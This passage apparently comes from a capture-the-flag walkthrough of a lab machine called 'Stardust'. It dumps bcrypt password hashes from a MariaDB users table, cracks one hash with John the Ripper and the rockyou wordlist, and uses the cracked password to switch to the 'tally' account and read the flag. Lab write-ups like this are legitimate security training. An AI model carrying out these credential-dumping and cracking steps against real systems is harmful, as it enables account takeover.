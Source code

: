 ```bash
Database changed
MariaDB [intranetikDB]> show tables;
+------------------------+
| Tables_in_intranetikDB |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.000 sec)

MariaDB [intranetikDB]> Describe users;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int(11)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(255) | NO   |     | NULL    |                |
| password | varchar(255) | NO   |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
3 rows in set (0.001 sec)

MariaDB [intranetikDB]> select * from users;
+----+-----------+--------------------------------------------------------------+
| id | username  | password                                                     |
+----+-----------+--------------------------------------------------------------+
|  1 | carolynn  | $2b$12$HRVJrlSG5eSW44VaNlTwoOwu42c1l9AnbpOhDvcEXVMyhcB46ZtXC |
|  2 | chi-yin   | $2b$12$.sDM7vxQCe3nmOois5Ho4O1HkNEiz4UJ/9XEsYlnbH7Awlxfig3g2 |
|  3 | tally     | $2b$12$zzVJxxxxxxxxxxxxxxxxxxxxxxxxxxpbeKKbP21cn7FKtNy4Ycjl. |
<SNIP>
| 15 | brittany  | $2b$12$hgjI3XifZTqfMCSM4TOqTObHNLNvkT0FhwiAJ7zr/GGLM58b4ieVC |
+----+-----------+--------------------------------------------------------------+
15 rows in set (0.001 sec)
```

The database appears to store the password of Tally who is also a local user on the system. Let's copy this password and attempt to crack it using the rockyou.txt wordlist.
```bash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$ echo '$2b$12$zzVJjW1Bvm4WqcPy6nqDFOU4JRh2mMpbeKKbP21cn7FKtNy4Ycjl.' > john-hash
┌──(pentester㉿kali)-[~/Stardust/Misc File]
└─$ john john-hash -wordlist=.rockyou.txt 
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
<SNIP>
<REDACTED>           (?)     
1g 0:00:00:04 DONE (2024-09-20 21:52) 0.2012g/s 57.95p/s 57.95c/s 57.95C/s hellokitty..brenda
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can see that we successfully cracked the hash. We can use this password to log in as the tally user and read the flag.
```bash
www-data@stardust:/var/www/html$ su tally
Password: 
tally@stardust:/var/www/html$ ls /home/tally/
user.txt
```
